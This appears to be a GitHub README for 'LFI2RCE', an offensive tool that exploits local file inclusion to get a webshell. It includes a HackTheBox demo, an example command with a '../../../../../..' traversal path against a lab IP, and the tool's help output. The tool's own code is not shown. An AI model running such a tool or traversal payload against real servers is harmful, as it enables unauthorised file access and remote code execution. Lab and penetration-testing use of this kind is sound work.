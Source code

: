 LFI2RCE
====

## Overview
LFI to RCE tool.
## Description
This tool is used to exploit an LFI vulnerability to obtain a Webshell.
If you give a vulnerable URL to LFI, it will try LFI of a common file.
## Demo
#### HackTheBox Poison.
![LFI-Poison](https://user-images.githubusercontent.com/56021519/81492511-44e78600-92d3-11ea-9ce5-1aade0b48f16.gif)
## Example
```txt
root@kali:/# python lfi2rce.py --linux --username charix 10.10.10.84 /browse.php?file=../../../../../..  --error "failed to open stream" -v
```
## Requirement

## Usage
```txt
root@kali:/# python lfi2rce.py -h
                    _     _____ ___ ____  ____   ____ _____  
                   | |   |  ___|_ _|___ \|  _ \ / ___| ____| 
                   | |   | |_   | |  __) | |_) | |   |  _|   
                   | |___|  _|  | | / __/|  _ <| |___| |___  
                   |_____|_|   |___|_____|_| \_\____|_____| 
usage: lfi2rce.py [-h] [--nullbyte] [--ssl] [--dir-file DIR_FILE] [--windows]
                  [--linux] [--username USERNAME] [--debug] [--error ERROR]
                  [-v] [-k] [-o OUTDIR] [-s]
                  host path

brute force common file

positional arguments:
  host                  IP address to scan. Example: 127.0.0.1
  path                  Local file inclusion path. Example:
                        /browser.php?file=/../../../../..

optional arguments:
  -h, --help            show this help message and exit
  --nullbyte            terminate the url with null byte
  --ssl                 Use SSL for connection (https)
  --dir-file DIR_FILE   Input file for directory brute force
  --windows             Windows server
  --linux               linux server
  --username USERNAME   enter username if you know
  --debug               Complete setup without running against host
  --error ERROR         Enter Error Messgage. Example: No such file or
                        directory
  -v, --verbose         Verbose output
  -k, --verify-ssl      Verify SSL certificates
  -o OUTDIR, --outdir OUTDIR
                        Write output to this directory
  -s, --show-output     show results to screen
root@kali:/# 
```
